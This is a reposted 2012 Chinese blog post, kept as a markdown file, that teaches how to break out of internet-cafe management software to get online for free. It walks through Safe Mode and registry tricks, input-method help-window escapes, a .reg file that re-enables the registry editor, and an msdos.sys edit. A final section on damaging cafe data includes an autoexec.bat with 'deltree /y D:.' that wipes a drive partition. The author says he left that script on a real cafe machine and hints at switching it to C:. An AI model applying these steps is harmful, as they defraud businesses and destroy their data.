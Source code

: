 ```yaml
---
layout: post
status: publish
published: true
title: 菜鸟的网吧常见漏洞入侵
author: Byronlee
author_login: ginchenorlee
author_email: ginchenorlee@sina.com
wordpress_id: 26
wordpress_url: http://www.ginchenorlee.com/?p=26
date: !binary |-
  MjAxMi0wNi0wNCAxMTowNDowMiArMDAwMA==
date_gmt: !binary |-
  MjAxMi0wNi0wNCAxMTowNDowMiArMDAwMA==
categories:
- 信息安全
tags:
- 信息安全
comments: []
---
```

<p>第一课　首先试试“安全模式”漏洞。</p>
<p>到网吧后开机（不要管理员解锁），一会儿屏幕出现“Starting Windows ……”时，按下"F5"键启动到“安全模式”，在“开始”→“运行”框中输入“msconfig”（回车），打开“系统配置实用程序”，用鼠标单击“启动”标签,去掉所有与网管软件有关的项，也可以在运行框中输入“regedit”打开注册表，删除注册表“HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRun”下的相关键值，更残忍的干脆把网管软件给卸载掉，重新启动计算机后，就可以免费上网了。是不是很简单？不过可要当心网吧老板！如果“F5”键被屏蔽了，则应该先修改“msdos.sys”。看看下面的“输入法”漏洞，大家就知道怎么修改了。</p>
<p>第二课（本课以“网吧管理专家”为例）</p>
<p>照样先开机（启动过程别按“F5”），没有让管理员解锁的计算机在桌面上有一密码框，是用于验证用户身份的。这里分为会员和管理员，两种身份分别具有不同的使用权限。我不是管理员，所以我不知道管理员密码，在座有哪位知道的？（你不用拼命摇头啦！）没有密码照样能进入！我们可以绕到密码框后面去。用鼠标单击“会员卡号”框，利用“ctrl+shift”或“Ctrl+Space(空格键)”调出输入法，然后随意输入一个字母，在弹出的输入框上单击鼠标右键，看看有没有“帮助”。没有的话就用“Ctrl+Shift”切换输入法，直到找出“帮助”后单击它。鼠标的移动范围被限制了，可以这样破解它：按下“Alt+Space”，在弹出的标题栏菜单上（用键盘）选择“移动”，再回车两下就OK了。基础打好了，现在让我们看看这个网吧里有什么好东东，用鼠标单击“帮助”的标题栏图标（有一种帮助没有这个图标，这种帮助好像没什么利用价值）。打开控制菜单后，再单击“跳至 URL（J） ...”，在弹出的输入框中输入网址或盘符都可以，先去C盘看看，输入“C：”或“file:///C:/”。我找…… 似乎没什么好玩的。你看那网管软件，就放在这么显眼的地方，也不怕被人执行“Uninstall.exe”。……　下面就开始上网了。：）去“新浪”逛逛，打开“跳至 URL（J）...”框，输入“www.sina.com.cn”(“回车”)，大家让一让，发生什么事了？网页内容竟然在“帮助”里显示出来了！如果要去雅虎网站，还得再单击“跳至 URL（J） ...”，麻烦了点，不如去桌面上找个IE更方便些，这次还是得单击“跳至 URL（J）...”，输入“c:windowsdesktop”(回车)，或者在刚才打开的c盘上任意选择一个文件夹，按“shift+Enter(回车)”，调出资源管理器，也可以到达桌面。</p>
<p>有些人想要管理员密码,你可以自已来设置一个，我惯用的方法是：打开注册表，删除“[Hkey_Local_MachineSoftware万象幻境专家系列管理软件]”下的键名“计算机解锁密码”和“运行设置程序密码”的键值（另外还有其他的密码，均已被编译，要删除就随你便啦！）改完后退出注册表并重新启动计算机，密码框不见了，然后依次单击“开始→设置→运行设置程序”，倘若你觉得该网吧限制太高，不妨把它设置低一点。如果注册表编辑器被禁止，就当我上面的话没说，我们可以用这种方法破解：</p>
<p>1.在IE地址栏内输入“c：”，回车。</p>
<p>2.单击“文件”菜单，新建一份文本文档，输入如下代码：</p>
<p>Regedit4<br />
[HKEY_USERS.DEFAULTSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem]<br />
"DisableRegistryTools"=dword:01000000</p>
<p>将文件另存为“1.reg”，把它双击安装后就可以使用注册表编辑器了。刚才提到怎样解除“F5”的限制，利用“帮助”漏洞来解除可以，但是我想利用“快速提示”漏洞。</p>
<p>第三课　“输入法”中的“快速提示”漏洞</p>
<p>这节课教大家什么？嗯！是“输入法”中的“快速提示”漏洞，目前仅有“五笔加加”输入法有这个漏洞。照上节课教的，不过这次要大家找的是“快速提示”，而不是“帮助”，切换输入法，找到“快速提示”后单击它，这时出现一个IE窗口（不是太菜的你应该知道干什么用的，上网用的呗！），鼠标移动范围被限制了，破解它（上节课教过了，但是如果IE窗口是最大化的，则应该先在控制菜单中选择“恢复为小窗口”后再“移动”，再按“回车”），这样便可免费上网了，需要打开桌面，最简单的方法是：在IE地址栏上输入“桌面”（回车）。回顾一下第一节课主要说了什么……嗯！利用“F5”漏洞免费上网，大多被屏蔽掉了，第二节课说过要利用“快速提示”漏洞来解除它。怎么做呢？（大家笔拿起来做些笔记），“msdos.sys”文件在C盘根目录下一般是以“隐藏”和“只读”形式储存的，我们需要先去掉它的“只读”属性，要不然无法对它做任何修改，在IE地址栏上输入“file:///C:/command.com”回车，打开“ms-dos方式”，在提示符下输入 “attrib -r c:msdos.sys”(回车)以去掉“只读”属性，再返回到IE地址栏上输入“file:///C:/msdos.sys”（回车），把“打开方式”设为“记事本”，把“option”下的“BootKeys”的值改为“1”，保存退出。重新启动计算机便可使修改生效。</p>
<p>上面讲的都是以“网吧管理专家”网管软件为例，如果是“美萍”控制的计算机，得先打开“开始→会员登陆”，接下来与“网吧管理专家”操作过程相同。再补充一点，其实免费上网还有一种方法，不过成功率不高，就是使网管软件出错，我是用键盘上的“Ctrl、Shift、Alt”三个键中任一键或任两键配合其他键狂按，结果网管软件报错退出,“我的电脑”和“回收站”等都出现在桌面上了。</p>
<p>第四课　一些破坏网吧数据的方法（那位耳朵伸得那么长，想必是网德不善者）。</p>
<p>破坏1（破坏级别：中）：</p>
<p>在IE“地址栏”或“jump to URL”中输入“file：///c：/windows/control.exe”，打开“控制面板→ 添加/删除程序”，卸载掉你“感兴趣”的应用程序。</p>
<p>破坏2（破坏级别：中→高）：</p>
<p>为了防止文件被删除，网管软件一般都屏蔽了鼠标右键，并且连键盘上的“Delete”和“Shift+Delete”也无效，不过据我所知，在“网吧管理专家”控制下的数据可以用“Ctrl+D”来删除。</p>
<p>破坏3（破坏级别：高）：</p>
<p>修改C盘根目录下的“autoexec.bat”文件为如下代码：</p>
<p>@echo off<br />
path=c:windows;c:windowscommand<br />
smartdrv &gt;nul<br />
deltree /y D:. &gt;nul</p>
<p>这些代码是我前段时间在某网吧里预留的，后果只是使硬盘D分区的数据全部丢失而已，但计算机仍可启动（因为操作系统被装在C盘），若将第四段代码的“D:”改为“C:”，有什么后果？你试试就知道了，像我这样心地善良，乐于助人的人，是不会那么做的。</p>
<p>转自：http://www.bitscn.com/network/hack/200703/98973.html</p>
